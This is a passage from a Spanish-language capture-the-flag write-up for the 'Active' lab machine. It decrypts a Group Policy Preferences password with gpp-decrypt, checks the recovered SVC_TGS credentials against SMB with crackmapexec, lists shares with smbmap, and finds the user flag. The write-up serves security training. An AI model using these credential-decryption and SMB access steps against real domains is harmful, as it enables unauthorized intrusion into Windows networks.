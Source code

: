 
<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="Hash">Crackeando Hash de Groups.xml</h2>

Como bien dice el artículo, el cifrado está en **AES-256**. Para descifrar este tipo de cifrado, contamos con la herramienta **GPP-Decrypt**, esta herramienta se encarga de desencriptar esta clase de hashes que se crean en **GPP**, as>
```bash
gpp-decrypt       
Usage: gpp-decrypt: encrypted_data

gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

Comprobemos si el usuario y contraseña nos sirven para loguearnos en el servicio **SMB** con la herramienta **Crackmapexec**:
```bash
crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
SMB    10.10.10.100    445    DC   [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB    10.10.10.100    445    DC   [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18
```
No menciona ningún error, quiero pensar que el usuario y contraseña son validos.

Vamos a probarlo con la herramienta **smbmap**, nos debería mostrar más información:
```bash
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' 
[+] IP: 10.10.10.100:445        Name: active.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY
```
Muy bien, podemos enumerar más recursos compartidos.

<h2 id="SMB3">Enumeración Servicio SMB como Usuario SVC_TGS</h2>

Bien, con tan solo navegar un poco dentro de los recursos compartidos, entraremos en **Users** y aqui podemos encontrar la flag del usuario:
```bash
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Users/SVC_TGS/Desktop
[+] IP: 10.10.10.100:445        Name: active.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Users                                                   READ ONLY
        .\UsersSVC_TGS\Desktop\*

        dr--r--r--                0 Sat Jul 21 10:14:42 2018    .
        dr--r--r--                0 Sat Jul 21 10:14:42 2018    ..
        fw--w--w--               34 Wed May  3 15:50:40 2023    user.txt
```
